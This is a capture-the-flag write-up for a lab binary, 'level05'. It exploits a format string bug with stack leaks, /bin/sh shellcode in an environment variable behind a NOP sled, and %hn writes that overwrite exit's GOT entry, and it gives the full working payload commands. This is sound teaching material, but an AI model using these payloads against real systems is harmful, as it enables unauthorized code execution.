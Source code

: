 
# Level05 - Exploiting Format String Vulnerability to Execute Shellcode

## Objective

The goal of this challenge is to exploit a format string vulnerability in the program to execute shellcode stored in an environment variable.

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level05
coucou
coucou
```

The program prompts for input twice.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program uses `fgets()` to read input into a buffer of 100 characters, converts the input to lowercase, and finally calls `printf()` with the buffer as an argument:

```assembly
0x08048500 <+188>: lea    eax,[esp+0x28]   ; buffer
0x08048504 <+192>: mov    DWORD PTR [esp],eax
0x08048507 <+195>: call   0x8048340 <printf@plt>
```

This setup introduces a format string vulnerability.

## Step 3: Exploiting the Format String

Test the vulnerability by printing stack values:

```bash
$ python -c 'print "BBBB" + "-%x" * 12' | ./level05
bbbb-64-f7fcfac0-f7ec3af9-ffffd5ff-ffffd5fe-0-ffffffff-ffffd684-f7fdb000-62626262-2d78252d-252d7825
```

Our input appears at the 10th position on the stack.

## Step 4: Injecting Shellcode

To exploit this, store shellcode in an environment variable and inject it at the 10th position using the format string.

### Shellcode

Use the following shellcode:

```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

### Find the Address of the Payload

Store the shellcode in an environment variable:

```bash
$ env -i PAYLOAD=$(python -c 'print "\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') gdb level05
(gdb) x/200s environ
```

### Locate the Environment Variable Address

Identify the address of the nopesled to jump to, e.g., `0xffffdc59`.

## Step 5: Overwriting the GOT Entry

We need to overwrite a GOT entry. Since the program ends with `exit()`, we can overwrite it:

```assembly
0x0804850c <+200>: mov    DWORD PTR [esp],0x0
0x08048513 <+207>: call   0x8048370 <exit@plt>
```

The GOT address of `exit` is `0x80497e0`.

### Building the Exploit

Split the address `0xffffdc59` into two writes for the GOT:

1. First part: `dc59` (56409 - 8 bytes for addresses).
2. Second part: `ffff` (65535 - remaining characters).

Construct the payload:

```bash
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn"'
```

## Step 6: Running the Exploit

Run the exploit with the environment variable:

```bash
$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn"'; cat) | env -i PAYLOAD=$(python -c 'print "\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') ./level05
whoami
level06
```

## Summary

- The program has a format string vulnerability that allows arbitrary memory writes.
- By injecting shellcode into an environment variable and using the format string, we can hijack execution.
- Overwriting the GOT entry for `exit` with the shellcode address enables us to execute arbitrary code.

This demonstrates how format string vulnerabilities can lead to full code execution if properly exploited.
